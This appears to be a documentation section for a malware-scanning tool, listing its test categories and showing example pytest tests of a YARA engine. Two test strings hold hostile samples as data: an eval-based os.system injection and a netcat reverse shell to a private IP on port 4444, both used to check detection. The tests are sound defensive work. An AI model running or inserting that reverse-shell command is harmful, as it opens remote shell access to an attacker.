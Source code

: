 ### Test Categories

- **Unit Tests**: Individual component testing (YARA engine, AI analyzer, scoring)
- **Integration Tests**: Service integration (NATS, MinIO, PostgreSQL)
- **Security Tests**: Malware detection accuracy with known threats
- **Performance Tests**: Analysis speed and memory usage under load

### Test Setup

```python
# Example security test
import pytest
from src.analyzer.yara_engine import YaraEngine

class TestYaraEngine:
    def setup_method(self):
        self.yara_engine = YaraEngine()

    def test_detects_code_injection(self):
        malicious_code = """
        import os
        eval("__import__('os').system('ls')")
        """

        result = self.yara_engine.scan_code(malicious_code, "python")

        assert len(result.matches) > 0
        assert any(match['meta']['severity'] == 'high' for match in result.matches)
        assert result.threat_score > 3

    def test_detects_reverse_shell(self):
        malicious_code = """
        import subprocess
        subprocess.Popen(['/bin/sh', '-c', 'nc -e /bin/sh 192.168.1.100 4444'])
        """

        result = self.yara_engine.scan_code(malicious_code, "python")

        assert len(result.matches) > 0
        reverse_shell_detected = any(
            'reverse_shell' in match.get('tags', [])
            for match in result.matches
        )
        assert reverse_shell_detected

    def test_safe_code_passes(self):
        safe_code = """
        import pandas as pd
        import numpy as np

        def calculate_rsi(prices, period=14):
            delta = prices.diff()
            gain = (delta.where(delta > 0, 0)).rolling(window=period).mean()
            loss = (-delta.where(delta < 0, 0)).rolling(window=period).mean()
            rs = gain / loss
            return 100 - (100 / (1 + rs))

        # Simple trading logic
        return calculate_rsi(prices)
        """

        result = self.yara_engine.scan_code(safe_code, "python")

        # Should have minimal or no high-severity matches
```